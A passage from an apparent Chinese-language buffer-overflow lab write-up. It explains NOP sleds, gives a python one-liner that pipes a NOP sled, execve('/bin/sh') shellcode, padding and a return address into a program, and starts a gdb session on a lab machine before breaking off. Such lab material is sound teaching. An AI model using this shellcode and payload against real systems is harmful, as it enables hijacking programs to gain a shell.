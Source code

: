     ![Alt text](/style/image/image-410.png)

+ 从理论上讲，完成以上过程可能会有一个很好的效果，但是，内存地址在不同系统上可能不相同，即使在重新编译程序时在同一台计算机上也是如此，所以我们还可以使用 NOP 指令使以上过程更加灵活；NOP指令是一条无操作指令——当系统处理这条指令时，它将什么也不做，继续往下执行，NOP 指令可以使用\x90来表示；我们可以将 NOP 作为有效载荷的一部分，这意味着攻击者可以跳转到包含 NOP 的内存区域中的任何位置，并最终到达预期的指令，注入向量的情况将如下所示：

    ![Alt text](/style/image/image-411.png)

+ 可能已经注意到 shellcode、内存地址和 NOP sled 通常是十六进制代码，为了便于将有效载荷传递给输入程序，我们可以使用 python命令：

    ```
    python -c "print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)"
    ```
    
    ```
    python -c "print('\x90' * 30 +'\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05'+
    '\x41' * 60 +
    '\xef\xbe\xad\xde') | ./program_name
    "
    ```
    在某些情况下，我们可能需要在 ./program_name 之前传递 xargs。

+ 使用上述方法,打开一个shell,读取虚拟靶机中的overflow-3 文件夹下的secret.txt文件内容。:

    ```
    [user1@ip-10-10-138-137 overflow-3]$ gdb -q buffer-overflow
    Reading symbols from buffer-overflow...(no debugging symbols found)...done.
    (gdb) run $(python -c "print('A'*158)")
    Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*158)")
    Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
    Here's a program that echo's out your input
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
